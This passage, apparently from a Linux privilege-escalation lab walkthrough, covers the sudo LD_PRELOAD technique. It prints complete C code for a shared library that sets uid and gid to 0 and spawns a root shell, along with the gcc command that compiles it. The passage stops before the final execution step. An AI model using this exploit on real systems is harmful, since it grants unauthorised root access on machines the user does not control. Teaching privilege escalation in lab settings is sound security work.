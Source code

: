![apache](/img/2020-07-27-LinuxPrivEsc/apache.png)

## Task 10 → Privilege Escalation - Sudo (LD_PRELOAD)

A closer look at the output of 'sudo -l' shows that the environment variable 'LD_PRELOAD' is intact.

![sudol2](/img/2020-07-27-LinuxPrivEsc/sudo-l2.png)
We can abuse this to escalate privileges. 
Using vi create the file 'x.c' 

~~~
vi x.c
~~~
Then paste this program and save it.
~~~
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

Compile it using this command.
~~~
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
~~~

The last step to get a root shell is to execute it.
